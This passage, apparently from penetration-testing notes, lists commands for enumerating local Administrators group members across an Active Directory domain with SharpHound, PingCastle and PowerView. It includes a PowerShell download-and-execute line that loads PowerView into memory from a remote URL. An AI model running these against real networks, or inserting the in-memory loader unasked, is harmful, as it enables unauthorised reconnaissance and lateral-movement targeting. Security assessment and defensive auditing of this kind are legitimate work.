 *BloodHound / PingCastle*

`BloodHound`'s `SharpHound` collector or `PingCastle` can be used for an
automated enumeration of the local groups members of all the computers joined
in the targeted Active Directory domain.

`PingCastle` returns a text file with the enumerated computers fully qualified
hostnames and the members of their local built-in `Administrators` group.
`SharpHound` returns a `ZIP` archive (containing `JSON` files) that can be
imported into a `Neo4j` database using `BloodHound`.

For more information on both tools, refer to the `[Active Directory] AD
scanner` note.

```
# BloodHound's SharpHound.
# Either the PowerShell SharpHound.ps1 (that inlines the C# DLL) or the C# SharpHound.exe collector may be used.
Invoke-Bloodhound -Verbose -CollectionMethod <all | LocalAdmin | LocalGroup>
Invoke-Bloodhound -Verbose -Domain '<DOMAIN_FQDN>' -DomainController '<DC_IP | DC_HOSTNAME>' -LDAPUsername '<USERNAME>' -LDAPPassword '<PASSWORD>' -CollectionMethod <all | LocalAdmin | LocalGroup>

SharpHound.exe -v --Domain '<DOMAIN_FQDN>' --domaincontroller '<DC_IP | DC_HOSTNAME>' --ldapusername '<USERNAME>' --ldappassword '<PASSWORD>' -c <all | LocalAdmin | LocalGroup>

# PingCastle.
# Enumeration on all the computers integrated into the current or specified Active Directory domain.
PingCastle.exe --scanner "localadmin"
PingCastle.exe --server <DC_FQDN | DC_IP> --user "<DOMAIN>\<USERNAME>" --password "<PASSWORD>" --scanner "localadmin"

# Executes PingCastle in interactive in order to manually specify the targeted host.
.\PingCastle.exe
-> 4-Scanner -> 6-localadmin -> 2-one -> <HOSTNAME | FQDN>
```

*PowerView*

```
# Injection in memory of PowerView from the Empire maintained fork. Alternatively, the `PowerView.ps1` PowerShell script can be hosted on a controlled web server.
(New-Object System.Net.WebClient).Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1')

# PowerView - single computer "Administrators" members
Find-DomainLocalGroupMember -ComputerName <HOSTNAME | IP>
Find-DomainLocalGroupMember -ComputerName <HOSTNAME | IP> -ComputerDomain <DOMAIN> -Server <DC> -Credential <PSCredential>

# PowerView - multiple computers "Administrators" members
Find-DomainLocalGroupMember | Export-Csv -Path <OUTPUT_CSV>
Find-DomainLocalGroupMember -ComputerDomain <DOMAIN> -Server <DC> -Credential <PSCredential>
```
